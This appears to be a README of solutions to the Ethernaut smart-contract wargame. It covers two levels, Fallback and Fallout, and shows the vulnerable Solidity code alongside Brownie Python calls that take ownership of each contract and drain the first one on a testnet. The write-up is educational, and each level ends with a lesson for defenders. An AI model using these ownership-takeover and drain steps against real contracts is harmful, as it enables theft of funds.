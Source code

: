 # Ethernaut
## Setting up Environment
I used Brownie for my development environment. All soltuions are implemented as scripts in `/scripts` 
You will need to obtain an archive URL from Alchemy and create a new development network.
```
brownie networks add development rinkeby-fork cmd=ganache-cli host=http://127.0.0.1 fork=**ARCHIVE URL** accounts=10 mnemonic=brownie port=8545
```
### Running scripts
First I ran my scripts locally to test my solutions. Then I ran my scripts live on Rinkeby to pass the levels.
```
# run scripts locally
brownie run scripts\fallout.py --network rinkeby-fork
# run scripts live on Rinkeby
brownie run scripts\fallout.py --network rinkeby
```
## Level 1: Fallback
To beat this level we must claim ownership of the contract and then drain it. We need to become the owner and then we can call `withdraw()`, which has a modifier that only allows the current owner to call the function. 
There are two places where the owner variable can be modified:
1. In the contribute function
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```
2. In the fallback function
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
The contribute function only lets us send less than 0.001 ether at a time and the owner variable gets modified only when our contributions are greater than the contributions of the current owner. The contributions of the current owner have been set to 1000 ether in the constructor:
```solidity
constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
```
Therefore, this method is not practical. Now we know that we need to trigger the fallback function in order to set ourselves as the owner.
The require statment in the fallback function checks that our transaction has a value greater than 0 and that our contributions are also greater than 0. We will need to call `contribute()` with an arbitrarily small amount of ether (at least less than 0.001) to satisfy this check.
```python
eth_amount = Web3.toWei("0.00001", "ether")
fallback.contribute({"from": account, "value": eth_amount}) 
```
Once we have called contribute we are now ready to trigger the fallback function. To do this we will execute a simple ether transfer to the contract. We can do this very easily with brownie:
```
account.transfer(fallback, "0.00001 ether")
```
We can check that we are now the owner of the contract:
```python
print(fallback.owner() == account.address)
```
All that is left to do is drain the contract. We will do this by calling `withdraw()`. We will pass the check in the `onlyOwner` modifier since we are now the current owner.
```python
fallback.withdraw({"from": account})
```
We have now successfully passed the level! 
This level shows us that anyone is able to call the fallback function of a contract and execute any code that is in said fallback function. Moral of the story: Be wary of putting code that modifiers sensitive state variables in your fallback function. 

## Level 2: Fallout
To pass this level we need to claim ownership of the contract. We can see that the owner variable only gets modified once in the constructor:
```solidity
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```
We can see that this constructor does not use the `constructor` keyword. Therefore, the name of the constructor function must match the name of the contract in order to be executed as a constructor. 
Note that since `Solidity v0.4.22` this method is now deprecated. Since this contract does not use the `constructor` keyword, the Fal1out function can be seen as any normal function. We can then call this function and become the owner of the contract.
```python
fallout.Fal1out({"from": account})
```
Now we can check that we are the owner of the contract:
```python
print(fallout.owner() == account.address)
```
We have successfully passed this level!
Moral of the story: Use the `constructor` keyword.

